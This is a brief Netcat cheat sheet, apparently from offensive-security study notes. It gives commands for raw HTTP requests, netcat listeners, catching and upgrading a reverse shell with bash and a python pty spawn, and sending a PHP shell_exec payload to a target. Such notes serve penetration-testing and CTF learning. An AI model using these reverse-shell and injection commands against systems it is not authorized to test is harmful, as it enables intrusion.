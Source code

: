 ```yaml
---
title: Netcat
desc: Manages network connections. Also known as 'nc'.
tags: [ActiveRecon, Linux, PrivEsc, ReverseShell, Web]
alts: [Ncat, Telnet]
website:
render_with_liquid: false
---
```


## HTTP request

```sh
echo -en "GET / HTTP/1.1\nhost: netcat\n\n" | nc 10.10.44.191 80
```

<br />

## Listen

```sh
# HTTP
nc -lvnp 80

# HTTPS
nc -lvnp 443
```

<br />

## Listen (background)

```sh
# Add '&'
nc -lvnp 4444 &
```

<br />

## Listen for Reverse Shell

```sh
nc -lvnp 4444

# ---- Activate -------------------------

# Interactive shell
/bin/bash -i

# Upgrade to fully functional terminal
$ SHELL=/bin/bash script -q /dev/null
# or
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
```

<br />

## PHP Shell

```sh
nc <target-ip> 80
<?php echo shell_exec('whoami') ?>
```